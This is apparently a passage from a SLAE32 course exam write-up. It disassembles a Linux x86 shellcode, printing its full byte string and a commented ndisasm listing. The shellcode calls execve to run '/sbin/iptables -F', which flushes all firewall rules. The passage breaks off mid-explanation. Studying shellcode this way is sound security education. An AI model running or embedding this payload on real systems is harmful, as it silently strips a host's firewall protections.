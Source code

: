 - [original_shellcode.nasm](https://github.com/rbctee/SlaeExam/blob/main/slae32/assignment/6/part/3/original_shellcode.nasm)
- [polymorphic_shellcode.nasm](https://github.com/rbctee/SlaeExam/blob/main/slae32/assignment/6/part/3/polymorphic_shellcode.nasm)

## Analysis

First, we need to analyse the original shellcode:

```bash
echo -ne "\x31\xc0\x50\x66\x68\x2d\x46\x89\xe6\x50\x68\x62\x6c\x65\x73\x68\x69\x70\x74\x61\x68\x62\x69\x6e\x2f\x68\x2f\x2f\x2f\x73\x89\xe3\x50\x56\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80" > shellcode.bin

ndisasm -b 32 -p intel shellcode.bin
```

Follows the output of `ndisasm`:

```nasm
                            ; clear EAX, setting it to 0x00000000
00000000  31C0              xor eax,eax

                            ; null terminator for the string below
00000002  50                push eax

                            ; string -F
00000003  66682D46          push word 0x462d

                            ; save the pointer to the string into ESI
00000007  89E6              mov esi,esp

                            ; NULL terminator for the string below
00000009  50                push eax

                            ; string ///sbin/iptables
0000000A  68626C6573        push dword 0x73656c62
0000000F  6869707461        push dword 0x61747069
00000014  6862696E2F        push dword 0x2f6e6962
00000019  682F2F2F73        push dword 0x732f2f2f

                            ; save the pointer to the string into EBX
0000001E  89E3              mov ebx,esp

                            ; array of pointers to command-line arguments:
                            ;   - ebx -> pointer to string '///sbin/iptables'
                            ;   - esi -> pointer to string '-F'
                            ;   - eax -> 0x00000000 (null terminator of the array)
00000020  50                push eax
00000021  56                push esi
00000022  53                push ebx
```

So far, the author of this shellcode pushed the string `///sbin/iptables` to the stack, saving its pointer into the register `EBX`, which is going be used by `execve` as the **1st argument** of iptables.
